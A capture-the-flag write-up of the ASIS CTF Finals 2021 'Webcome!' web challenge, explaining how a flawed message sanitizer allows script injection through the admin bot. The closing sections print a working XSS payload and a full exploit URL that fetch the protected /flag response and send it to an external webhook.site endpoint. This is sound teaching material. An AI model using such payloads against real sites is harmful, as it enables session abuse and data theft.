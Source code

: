 ```yaml
---
layout: post
title: "[ASIS CTF Finals 2021] Webcome!"
author: alueft
---
```


## Problem description

This is the problem entitled "Webcome!" from
[ASIS CTF Finals 2021](https://ctftime.org/event/1416).

You are given a web page that contains a CAPTCHA and a message saying you can
get the flag by solving it and clicking a submit button, but you need a "secret
cookie" to actually retrieve the flag. The provided code demonstrates this in
its `/flag` endpoint, which checks that both a `secret_token` cookie exists and
is equal to an internal secret token, and a CAPTCHA token exists and is valid.

As commonly seen in web problems, there's a "report" function that makes the
server navigate to a user-provided URL, which presumably can be utilized in some
manner to get the flag. Notably, the secret token is set by the server as a
cookie before navigating to the URL. This means we could make the server
navigate to the `/flag` endpoint, but there's no way of getting it back for us
to read it - maybe there's something else we can do at a different endpoint?

## Exploiting the HTML index page

The relevant part of index.html, which is used for the `/` endpoint, looks like
the following:

```html
<body>
    <div id="cont">
        <pre id="msg">
            
        </pre>
        <br>
        <br>
        <form action="/flag" method="POST">
            <div class="g-recaptcha" data-sitekey="$SITEKEY$"></div>
            <br/>
            <br/>
            <input id="submitbtn" type="submit" value="Submit">
        </form>
    </div>
    <script>
        msg.innerText = '$MSG$';
    </script>
    <!-- Report bugs at /report -->
</body>
```

`msg` is populated by the server in Node like so:

```js
app.get('/',(req,res)=>{
    var msg = req.query.msg
    if(!msg) msg = `Yo you want the flag? solve the captcha and click submit.\\nbtw you can't have the flag if you don't have the secret cookie!`
    msg = msg.toString().toLowerCase().replace(/\'/g,'\\\'').replace('/script','\\/script')
    res.send(indexHtml.replace('$MSG$',msg))
})
```

The message can be manually specified as a GET query parameter. There is an
attempt made by the server to sanitize the given message, but there's two ways
of bypassing it to execute arbitrary JS:

1. Every occurrence of `'` is replaced with `\'`, which attempts to prevent
   ending the string assigned to `msg.innerText`. However, if we make the string
   begin with `\'`, then the replacement string will become `\\'`. This ends up
   escaping the second backslash rather than the single quotation mark, meaning
   we can now write whatever code we want.
1. There's a similar attempt to deter using `</script>` to end the JS block, but
   note that the first argument is a string, rather than a regex literal with a
   global flag. As a result, only the _first_ occurrence of `/script` is
   replaced, which allows us to use a second occurrence to exit the script and
   subsequently begin a new one.

OK, so we can use the report function to make the server navigate to its own
index page and execute arbitrary JS. The secret cookie is also included, so
if we can just get its value, then we can get in through the front door?

## We're not quite there yet...

The server is actually quite robust when navigating to the user-specified URL:

```js
const browser = await puppeteer.launch({ pipe: true,executablePath: '/usr/bin/google-chrome' })
const page = await browser.newPage()
await page.setCookie({
    name: 'secret_token',
    value: secretToken,
    domain: challDomain,
    httpOnly: true,
    secret: false,
    sameSite: 'Lax'
})

res.send("Bot is visiting your URL")
try{
    await page.goto(req.body.url,{
        timeout: 2000
    })
    await new Promise(resolve => setTimeout(resolve, 5e3));
} catch(e){}
await page.close()
await browser.close()
```

Notably, `sameSite: 'Lax'` means it'll only include the cookie required to read
the flag when navigating to its own domain (see reference
[here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite#lax)),
and `httpOnly: true` means it won't make the cookie accessible to JS executing
in the page (see reference
[here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies)).

Thus, the cookie is only valid when we're navigating within the server's own
endpoints, and we can't read out its value in our own JS script and throw it out
to the outside world.

## Getting the flag (and reading it)

However, now that we're in a spot where we can execute JS in the server context,
navigating to the flag seems much more promising. Previously, we couldn't do
much by making the server navigate to the `/flag` endpoint, but now we can do it
ourselves!

This requires a couple steps to get past the CAPTCHA, because the server
makes a Google API call to validate the token:

1. We can actually just solve the CAPTCHA manually in a browser tab and call
   `grecaptcha.getResponse()` in the console to get the token. See
   [here](https://web.archive.org/web/20220106150713/https://developers.google.com/recaptcha/docs/verify)
   for CAPTCHA docs (linked to a place I trust not to change its URL more than
   Google's documentation).
1. If you scroll way up to where the original message sanitization is done,
   you'll see that `toLowerCase()` is called...which is annoying, because it's
   extremely likely that the CAPTCHA token contains uppercase letters. Luckily,
   we can specify the string as Unicode characters (e.g. `A` becomes `\u0041`),
   which doesn't require uppercase letters.

Once that's done, we can navigate to `/flag`, read the response, and then hit
some external endpoint to read the flag.

## Putting together the final plan

1. Do the CAPTCHA, get its token, and convert it to Unicode characters.
1. Create a script that:
   1. Navigates to the flag, with the CAPTCHA token in its request body.
   1. Reads the response.
   1. Navigates to some external endpoint, with the flag in its request body.
1. Add the necessary string to get past the server sanitization.
1. Put everything together into one line and use the report function.
1. Watch the external endpoint for an incoming request with the flag.

Here's the relevant script:

```js
fetch("http://[server IP]/flag", {
    method: "POST",
    body: "g-recaptcha-response=[snipped for brevity]",
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    credentials: "include",
})
.then(res => res.text())
.then(res => {
    fetch("[some external endpoint]", {
        method: "POST",
        headers: {"Content-Type": "application/json"},
        body: res,
    });
});
```

I used webhook.site as the external endpoint, and eventually got an incoming
request with the body `ASIS{welcomeeeeee-to-asisctf-and-merry-christmas}`. (Oh
yeah, this CTF ran for 24 hours over Christmas, which was not exactly convenient
for our team.)

And just for completeness, here's the URL I ended up getting the flag with,
which contains a ton of extra cruft:

```
http://65.21.255.24:5000/?msg=test';test/script</script><script>fetch("http://65.21.255.24:5000/flag", { method: "POST", body: "g-recaptcha-response=\u0030\u0033\u0041\u0047\u0064\u0042\u0071\u0032\u0035\u0071\u0062\u0036\u0074\u0073\u0037\u007a\u0037\u0041\u0032\u0050\u0043\u002d\u007a\u0036\u0059\u0071\u004a\u0063\u004a\u004e\u002d\u0064\u006d\u0075\u0059\u0076\u0046\u0063\u0049\u006f\u0064\u0071\u0049\u0042\u0075\u0049\u0055\u0068\u0067\u0054\u0062\u004f\u0045\u0033\u0079\u0030\u0079\u004d\u004c\u0050\u0055\u0039\u0078\u0048\u007a\u0038\u004f\u0047\u0042\u0053\u0036\u0047\u0049\u0042\u007a\u004d\u004a\u0067\u0054\u0061\u0037\u0063\u0077\u006d\u0064\u006e\u0069\u002d\u0036\u0047\u006b\u004c\u0055\u0071\u0078\u0030\u0062\u0051\u0031\u0055\u006f\u0051\u004f\u0074\u0057\u0076\u0047\u004d\u007a\u0071\u006c\u0059\u004b\u0053\u0055\u004e\u0070\u0032\u005a\u0067\u004b\u0056\u0057\u0054\u0061\u0039\u0061\u0073\u006a\u0048\u0033\u0056\u0034\u0076\u0039\u006c\u004b\u006d\u0059\u0038\u0038\u0045\u0056\u0033\u005f\u0067\u0046\u006a\u0035\u0042\u0072\u0050\u0039\u006c\u0054\u0069\u0043\u0050\u0052\u0042\u0032\u0061\u0076\u006f\u0044\u0066\u004e\u0073\u0031\u004c\u0053\u0042\u004f\u005a\u005f\u0039\u0039\u0071\u0030\u0033\u002d\u0078\u0032\u0063\u0078\u0037\u0069\u004f\u0039\u0071\u006d\u0077\u0035\u0071\u0066\u0074\u005a\u0042\u005a\u0030\u0076\u0036\u0043\u004b\u0036\u0042\u0062\u0034\u0051\u002d\u006b\u0032\u0053\u0031\u0033\u004b\u0059\u0077\u0051\u0049\u0061\u004a\u0063\u0064\u0056\u0079\u0038\u0074\u0048\u0041\u0070\u0076\u0047\u0031\u0072\u0056\u007a\u0059\u0035\u0070\u0049\u0071\u004d\u0047\u0078\u0052\u0032\u0052\u004b\u0075\u0047\u0058\u004d\u005f\u0066\u0052\u0068\u0039\u0061\u0068\u0064\u004d\u0057\u0066\u0075\u0077\u0054\u0072\u0033\u0063\u0057\u0054\u0078\u0038\u0071\u0034\u0046\u0038\u004b\u0076\u006b\u0069\u006f\u0066\u006c\u0077\u0065\u0041\u0072\u002d\u0064\u0038\u0046\u0048\u0062\u006a\u002d\u0067\u0039\u0034\u0030\u006d\u0068\u0050\u0031\u004e\u004d\u0057\u0048\u0048\u0042\u0054\u0069\u0076\u0044\u0068\u0044\u0067\u0045\u0051\u0044\u0034\u0031\u005a\u006b\u0037\u006d\u0073\u0030\u0050\u0051\u0057\u006b\u006d\u0069\u0062\u0053\u0070\u0064\u0055\u006a\u0057\u0067\u0070\u007a\u004f\u0069\u006e\u0063\u0037\u0065\u0047\u0039\u002d\u0035\u0039\u0035\u0078\u005a\u0066\u0050\u0033\u0079\u0053\u0062\u0049\u0063\u0036\u004d\u0044\u0064\u0077\u0071\u0030\u0062\u0053\u0068\u005a\u0072\u0030\u006f\u0064\u004a\u0067\u007a\u0076\u0054\u0036\u0076\u0067\u0065\u005f\u0066\u004d\u004a\u002d\u0043\u0045\u0038\u0038\u0054\u0047\u006d\u0067\u0050\u005a\u0073\u0076\u0037\u0047\u004f\u0030\u004e\u0050\u0035\u0054\u0066\u006a\u0034\u004f\u007a\u0039\u0046\u002d\u0035\u0065\u0069\u0072\u0069\u0042\u0038\u0050\u004a\u0059\u006d\u0050\u004a\u0048\u0053\u0034\u0071\u005a\u002d\u0079\u0067\u0039\u004f\u0073\u0073\u0072\u004c\u0066\u0066\u004d\u007a\u0073\u004c\u0039\u0053\u0034\u0079\u0044", headers: {"Content-Type": "application/x-www-form-urlencoded" }, credentials: "include" }).then(res => res.text()).then( res => { fetch("http://webhook.site/37af6202-11a5-447d-881e-7a2be9985895", {  method: "POST", headers: {"Content-Type": "application/json", "test": res}, body: res,}).then(res => {  console.log("Request complete! response:", res);}); });</script>
```
